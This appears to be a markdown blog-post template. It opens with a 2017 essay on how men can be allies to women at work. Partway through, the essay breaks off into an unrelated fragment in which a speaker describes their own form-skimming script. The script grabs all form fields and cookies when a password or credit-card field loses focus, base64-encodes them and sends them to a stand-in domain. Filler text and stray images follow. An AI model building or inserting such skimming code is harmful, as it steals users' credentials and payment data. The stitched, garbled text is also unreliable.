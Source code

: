 ```yaml
---
path: '/second-post'
title: 'Be a Pal, My Dudes'
published: true
date: '2017-11-23'
author: 'James Willis'
identifier: 'asdw234643435dsa09c9j1'
tags: ["be", "a", "pal", "my", "dudes"]
minutes: '4'
---
```


## A few specific ideas for being a good ally

So, we run a [workshop](google.com) to help women reduce the impact of gender bias in the workplace. A commonly asked question is something like “Why aren’t you running a workshop for men, since they are the ones who have to change?” The short answer is that it’s a complex dynamic, and women have the most incentive to change it. Our approach is to help decrease the amount of effort overall since women in male-dominated workplaces are already putting in so much extra because of bias. If you want to change habits, start where there are already strong incentives for change.

The longer answer is, we’re working on it.

In the meantime, I know there are a lot of men out there right now with good intentions who want to help change things, but it’s not always clear which actions are most helpful. And asking the people who are already doing extra work to do the additional work of teaching you how to help them do less work is…annoying. This is true for anyone who has more privilege in any given situation. Do your part to make it easier.

![alttext](https://cdn-images-1.medium.com/max/800/1*7iVk_As1gKmrFo3e6E9qPg.png)
<figcaption>Don’t be this guy. Why would anyone want to be this guy?</figcaption>

So, based on what we’ve heard in our workshops, conversations with colleagues, and straight-up asking Twitter, here are a few very specific helpful actions you can take. Many of these you’ve probably heard before. If we keep repeating, maybe they’ll stick. We all know the right thing to do, it’s cultivating a habit of doing the right thing in the moment that is so hard.

(Note: This list is just a starting point, and I’ve focused on peer-level actions, not management. I’ll probably make some edits and amendments and will definitely write more on this topic. Thanks to everyone weighing in!)

## Listen to women
This is fundamental on all levels. Listen to the individual woman who is talking to you. Assume she knows what she is talking about. Listen to the collective voices of women saying there is a problem. Stifle any urge to respond defensively. Don’t try to guess what they’re about to say. Just listen.

And don’t interrupt.

## Create space for women to speak
“The research suggests that, in groups, men tend to get and keep the floor more often than women, talk more often and for longer, interrupt more, and make different kinds of contributions, using language strategies that challenge, create and maintain status distinctions (i.e. they create and maintain asymmetrical alignments between themselves and interlocutors).”

—“Gender and Language in the Workplace” by Shari Kendall and Deborah Tannen

When you are speaking, you can help just by getting to your point faster. This helps everyone, really.

For bonus points, start paying attention in meetings and listen for men using far more words than necessary. Logorrhea is not necessarily a conscious move, and often comes from insecurity. Truly confident people are succinct.


```


Then, when there’s a blur event on a password/credit card field, or a form submit event is heard, my code:

* Takes data from all form fields (document.forms.forEach(…)) on the page
* Grabs document.cookie
* It turns all that into a random looking string const payload = btoa(JSON.stringify(sensitiveUserData))
* Then sends it off to `https://legit-analytics.com?q=${payload}` (not the real domain, of course)
* In `short`, if ```it looks``` like data that might be even remotely valuable to me, I send it off to my server.

> *f an attacker successfully injects any code at all, it’s pretty much game over*
sdfdsf
sdfsdf

![My image](https://cdn-images-1.medium.com/max/800/1*ePuviAguE9BPZ2GgdY8UXg.png)
  <figcaption>sdsd</figcaption>



  ![My image](https://upload.wikimedia.org/wikipedia/commons/b/be/Sharingan_triple.svg)
  <figcaption>sdsd</figcaption>